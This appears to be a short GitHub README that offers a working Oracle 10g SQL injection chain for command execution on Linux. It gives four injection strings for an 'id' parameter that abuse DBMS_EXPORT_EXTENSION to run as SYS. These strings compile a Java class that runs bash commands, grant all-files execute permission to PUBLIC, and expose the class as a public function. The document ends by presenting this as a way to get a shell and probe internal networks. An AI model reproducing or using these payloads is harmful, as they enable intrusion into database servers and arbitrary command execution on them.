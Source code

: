 # oracle 10g 正向连接 Linux shell

## oracle 10g sys user getshell by java. (Linux payload)

1. id=1||(select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "LinuxUtil" as import java.io.*; public class LinuxUtil extends Object {public static String runCMD(String args) {try{String[] cmd=new String[3];cmd[0]="/bin/bash";cmd[1]="-c";cmd[2]=args;BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(cmd).getInputStream())); String stemp,str="";while ((stemp = myReader.readLine()) != null) str %2B=stemp%2B"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'''';END;'';END;--','SYS',0,'1',0) from dual)-- Tort

2. id=1||(select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual)

3. id=1||(select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function LinuxRunCMD(p_cmd in varchar2)  return varchar2  as language java name ''''''''LinuxUtil.runCMD(java.lang.String) return String'''''''';   '''';END;'';END;--','SYS',0,'1',0) from dual)-- Tort

4. id=1||(select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on LinuxRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual)-- Tort

## use this client to get a non-interactive shell and detect Internal network